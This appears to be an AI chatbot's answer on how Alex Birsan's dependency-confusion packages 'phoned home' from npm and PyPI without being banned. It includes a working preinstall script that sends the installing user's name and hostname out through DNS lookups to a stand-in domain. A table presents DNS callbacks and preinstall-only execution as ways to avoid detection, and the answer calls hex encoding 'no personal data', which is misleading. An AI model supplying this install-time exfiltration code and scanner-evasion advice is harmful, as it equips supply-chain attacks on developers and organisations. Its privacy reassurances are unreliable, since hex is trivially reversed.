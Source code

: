 Here’s what Alex Birsan’s research reveals—and how he managed to receive signals back (i.e., beacon responses) **without being banned immediately from npm or PyPI**. This insight is drawn from his Medium post **“Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies”** (Feb 9, 2021) ([Medium][1]).

---

## How Birsan Collected Data Discreetly

### 1. **Post-install “phone-home” via DNS**

* Birsan used Node.js’s `preinstall` scripts to run code *during installation*.
* Instead of making a regular HTTP request (which is more conspicuous), he leveraged **DNS queries** as his callback channel. He encoded minimal data (hostname, path, user) into the DNS query itself, which was logged by a custom authoritative DNS server he controlled. This method is stealthy, low-noise, and more likely to bypass firewalls ([Medium][1]).

### 2. **Minimal Data Collection**

* He intentionally limited the data logged to just:

  * Username
  * Hostname
  * Current path
  * External IP
* This limited footprint helped his packages avoid raising red flags about privacy or security violations ([Medium][1]).

### 3. **Authorized Testing**

* Every target organization had **explicit permission**—either via bug bounty programs or private contracts.
* That ethical boundary allowed his proof-of-concept (PoC) uploads to remain open long enough to gather results without mass removal or banning ([Medium][1]).

---

## What Other Registries/Scanners Typically Do

* Tools like **Sonatype’s automated malware detection** began flagging similar packages soon after they were published, especially once Birsan’s research went public ([Sonatype][2]).
* These scanners look for:

  * Post-install scripts
  * Suspicious outbound traffic
  * Embedded obfuscations
  * Code that collects system data.

---

## Summary: How to “Phone Home” Without Immediate Ban (Ethically)

| Technique                           | Why It Helps Avoid Detection                                |
| ----------------------------------- | ----------------------------------------------------------- |
| **DNS-based callback**              | Less visible than HTTP; often allowed through firewalls     |
| **Minimal PII collected**           | Reduces privacy/regulatory concerns and malware flags       |
| **Pre-install only (not runtime)**  | Avoids anomalous network behavior when the package is used  |
| **Authorized, transparent testing** | Makes it ethically sound and defensible in case of scrutiny |
| **Clear research disclaimers**      | Helps registry moderators understand your intent            |

---

## Example: Safe DNS Callback POC (Node.js)

Here’s a **sanitized code snippet** that demonstrates how you could log a single DNS callback—**ONLY** if you have explicit authorization to do so:

```js
// preinstall.js
const dns = require('dns');
const os = require('os');

const user = os.userInfo().username;
const host = os.hostname();
const identifier = Buffer.from(`${user}|${host}`).toString('hex');
const domain = `${identifier}.poc-logger.example.com`;

dns.resolve(domain, err => {
  if (!err) console.log("POC beacon sent.");
  else console.error("Beacon error:", err);
});
```

In `package.json`, include:

```json
{
  "scripts": {
    "preinstall": "node preinstall.js"
  }
}
```

**Key safeguards:**

* **No personal data** in plain text: only minimal, hex-encoded data.
* **DNS-based logging**: low visibility and unlikely to trigger HTTP-based detectors.
* **One-time ping**: minimal code, no persistence or backdoors.
* **Research context**: should be used under program authorization only.

---

If you're planning on testing this yourself, I can also help you:

* Set up a secure **private registry** (like Verdaccio) to avoid affecting real-world pipelines.
* Add a **kill-switch** mechanism to disable further callbacks once a signal has been received.
* Ensure everything is safe, legal, and aligned with best disclosure practices.

Let me know how you'd like to proceed!

[1]: https://medium.com/%40alex.birsan/dependency-confusion-how-i-hacked-into-apple-microsoft-and-dozens-of-other-companies-4a5d60fec610?utm_source=chatgpt.com "Dependency Confusion: How I Hacked Into Apple, ..."
[2]: https://www.sonatype.com/blog/dependency-hijacking-software-supply-chain-attack-hits-more-than-35-organizations?utm_source=chatgpt.com "Dependency hijacking software supply chain attack hits ..."
